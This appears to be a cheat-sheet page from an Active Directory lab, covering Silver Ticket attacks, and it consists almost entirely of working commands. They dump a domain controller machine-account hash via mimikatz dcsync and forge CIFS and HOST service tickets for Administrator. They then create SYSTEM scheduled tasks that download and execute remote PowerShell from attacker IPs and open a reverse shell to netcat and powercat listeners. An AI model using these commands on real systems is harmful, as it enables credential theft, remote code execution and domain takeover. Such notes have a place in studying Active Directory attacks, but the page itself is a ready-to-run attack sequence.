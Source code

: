 ### Silver Ticket

    ```powershell
    # Comman Attack Scenario, if you have TGT of machine account...Then Silver Ticket can b ecrafted to one of the services as CIFS, HOST, HTTP etc and gain RCE on the system

    # Fetch the NTLM hash of the machine account US-DC$
    Invoke-Mimi -Command '"lsadump::dcsync /user:us\US-DC$"'
    f4492105cb24a843356945e45402073e

    # Craft a silver ticket for CIFS service on DC using DC$ machine account NTLM hash
    Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:CIFS /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

    C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:CIFS /aes256:36e55da5048fa45492fc7af6cb08dbbc8ac22d91c697e2b6b9b8c67b9ad1e0bb /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

    ls \\us-dc.us.techcorp.local\c$

    # Craft HOST service ticket
    Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /target:us-dc.us.techcorp.local /service:HOST /rc4:f4492105cb24a843356945e45402073e /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

    # Use Scheduled task to get RCE on DC via HOST Service
    schtasks /create /S us-dc.us.techcorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck41" /TR "powershell.exe -c 'iex (iwr http://192.168.100.41:8080/dakiya.ps1  -UseBasicParsing); reverse -Reverse -IPAddress 192.168.100.41 -Port 8081'"

    .\nc64.exe -lvp 8081
    powercat -l -v -p 443 -t 1000

    ## Schedule and execute a task

    schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.10:8080/Invoke-PowerShellTcp.psi''')'"

    schtasks /Run /S ad.domain.local /TN "STCheck"

    schtasks /Run /S us-dc.us.techcorp.local /TN "STCheck41"
